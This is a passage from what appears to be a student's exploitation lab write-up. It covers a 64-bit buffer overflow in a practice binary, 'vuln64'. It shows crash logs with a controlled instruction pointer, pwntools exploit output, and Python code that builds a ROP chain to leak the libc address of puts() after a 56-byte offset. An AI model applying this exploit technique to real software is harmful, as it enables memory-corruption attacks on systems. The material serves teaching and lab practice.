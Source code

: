 ```sh
┌──(student㉿kali)-[~/Desktop/assign2/exploit]
└─$ sudo dmesg | grep -i segfault
[  297.389068] vuln64[1306]: segfault at 42424242 ip 0000000042424242 sp 00007ffc3f30c280 error 14 in libc-2.31.so[7f638cded000+25000]
[  543.306608] vuln64[1341]: segfault at 42424242 ip 0000000042424242 sp 00007ffffdc7c370 error 14 in libc-2.31.so[7fcd805fb000+25000]

```

Here we progress by testing the memory leak vulnerability within the puts() call. This is performed using a ROP chain and returning back to the helpCommand() function. As you can see, we successfully leaked 


```sh
┌──(student㉿kali)-[~/Desktop/assign2/exploit]
└─$ python3 exploit64.py
[*] '/home/student/Desktop/assign2/app/vuln64'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/student/Desktop/assign2/app/vuln64': pid 1423
[*] Loaded 14 cached gadgets for '../app/vuln64'
[*] Switching to interactive mode
\xf0\xa5Y\x98\x80\x7f
This is an admin tools to run programs with elevated privileges
Press Enter to return...
$  
```

The below code achieves memory leak by using pwntool's ROP inbuilt functions to automatically grab the PLT and GOT address of the puts() function, whereby it is printed to the terminal \x00\x00\x00\x00\x00 etc... 

Pwntools is able to achieve this on execution by loading the gadgets of the program and creating a ROP object which can be called by using the below:

elf = ELF(./vuln64)

rop = ROP(elf)

rop.call()

This says “call PLT’s puts() function and print the leaked memory address of the GOT’s puts() function”. Remembering that these are dynamically linked between the program and libc.

```sh
rop.call(elf.plt['puts'], [elf.got['puts']]) 
```

Creating a ROP chain by calling the PLT and GOT gadgets of the puts() function and then returning to the beginning of the helpComand() function.

```sh
rop= ROP(elf)
rop.call(elf.plt['puts'], [elf.got['puts']]) 		
rop.call(elf.sym['helpCommand'])			

offset = 56

payload = [
	b"A" * offset,
	rop.chain()

]
```
